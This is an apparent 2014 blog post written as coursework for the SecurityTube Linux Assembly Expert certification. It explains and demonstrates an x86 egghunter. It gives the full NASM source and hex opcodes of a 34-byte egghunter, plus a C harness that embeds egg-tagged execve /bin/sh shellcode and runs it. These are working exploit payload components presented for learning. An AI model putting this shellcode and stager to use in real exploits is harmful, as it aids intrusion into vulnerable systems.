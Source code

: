 ```yaml
---
comments: true
date: 2014-04-09 07:30:35+00:00
layout: post
title: 'SLAE Assignment 3: EggHunter Demo'
categories:
- programming
- SLAE
tags:
- asm-x86
- nasm
- slae
---
```


This is the third of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:



	
  1. Study about EggHunter

	
  2. Make a working demo

	
  3. Make it configurable for different payload


An EggHunter is a small piece of code that search to a pattern (the egg) into the memory and once the pattern is found the shellcode will be executed. Tipically the egg is wrote twice, this to avoid the problem of finding an identical sequence in some other part of the memory.

<!-- more -->

The following is a PoC of an EggHunter:

    
    unsigned char egghunter[] = "egghunter shellcode"
    unsigned char shellcode[] = \
    "egg"
    "egg"
    "execve /bin/sh shellcode"
    
    int main(void){
        run(egghunter);
        return 0;
    }


This is the complete shellcode:

    
    ;Description:	Assignment #3 (EggHunter, 34 bytes)
    ;Shellcode:		\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0
    ;Author: 		Paolo Stivanin <https://github.com/polslinux>
    ;SLAE ID:		526
    
    global _start
    section .text
    _start:
    	fldz
    	fstenv [esp-0xc]
    	pop eax
    lp1:
    	inc eax
    	xor ebx,ebx
    	mov cl,2
    lp2:
    	cmp dword [eax+ebx],0xddccbbaa
    	jne lp1
    	add ebx,4	;the egg must be found twice so i check eax and eax+4
    	dec cl		;this is a counter to track how many times the egg has been found
    	jnz lp2
    	lea eax,[eax+8]	;if the egg has been found then jmp into the shellcode
    	jmp eax


In this shellcode I didn't use the jmp-call-pop technique (which is more ids friendly) but instead I used two FPU instructions:



	
  * fldz to push +0.0 onto the FPU register stack

	
  * fstenv [esp-0xc] to save the current FPU operating environment at the specified memory location

	
  * and then pop eax . Noweax  contains the address offldz


The following is the graph of the egghunter shellcode flow:

[![graph_assign3]({{ site.baseurl }}/images/2014/04/graph_assign3-1024x601.png)]({{ site.baseurl }}/images/2014/04/graph_assign3.png)

This is the C source file:

    
    /* Description:	EggHunter(execve(/bin/sh))
     * Author:	Paolo Stivanin <https://github.com/polslinux>
     * SLAE ID:	526
     */
    
    #include <stdio.h>
    #include <string.h>
    
    unsigned char eggHunter[] = \
    "\xd9\xee\x9b\xd9\x74\x24\xf4\x58\x40\x31\xdb\xb1\x02\x81\x3c\x18\xaa\xbb\xcc\xdd\x75\xf2\x83\xc3\x04\xfe\xc9\x75\xf0\x8d\x40\x08\xff\xe0";
    
    unsigned char execveShellcode[] = \
    "\xaa\xbb\xcc\xdd" //egg
    "\xaa\xbb\xcc\xdd" //egg
    "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";
    
    int main(void){
    	printf("EggHunter: %zu\n", strlen(eggHunter));
    	printf("Shellcode: %zu\n", strlen(execveShellcode));
    	int (*ret)() = (int(*)())eggHunter;
    	ret();
    	return 0;
    }


and the following is the result of the above snippet:

[![assign3]({{ site.baseurl }}/images/2014/04/assign3-1024x552.png)]({{ site.baseurl }}/images/2014/04/assign3.png)



All the sources can be found in my [Github page](https://github.com/polslinux/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)
**Student ID: SLAE-526**
